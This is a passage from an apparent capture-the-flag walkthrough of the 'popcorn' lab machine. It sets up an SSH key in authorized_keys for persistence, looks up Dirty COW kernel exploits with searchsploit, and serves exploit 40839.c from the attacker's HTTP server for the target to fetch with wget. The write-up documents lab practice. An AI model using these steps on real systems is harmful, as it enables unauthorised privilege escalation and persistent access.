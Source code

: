 ```bash
mkdir ~/.ssh
ssh-keygen -t rsa -N '' -f ~/.ssh/id_rsa
cat ~/.ssh/id_rsa.pub > ~/.ssh/authorized_keys
chmod -R 700 ~/.ssh
```

## Privilege Escalation (Dirty Cow CVE-2016-5195)

Search for a dirty cow exploit that will compile on the x86 system:

```
$ searchsploit dirty cow
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)                                                                                    | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)                                                                                    | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                        | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                           | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                              | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                        | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                               | linux/local/40611.c
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I then mirrored the `Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)` exploit:

```bash
searchsploit -m linux/local/40839.c
```

I then hosted the exploit on my local HTTP server with:

```bash
python3 -m http.server
```

And made the popcorn machine download it from my kali machine: 

```
www-data@popcorn:/dev/shm$ wget http://10.10.14.24:8000/40839.c
--2020-09-06 23:04:38--  http://10.10.14.24:8000/40839.c
Connecting to 10.10.14.24:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/plain]
Saving to: `40839.c'

100%[==================================================================================================================================================>] 4,814       --.-K/s   in 0s

2020-09-06 23:04:39 (290 MB/s) - `40839.c' saved [4814/4814]
```
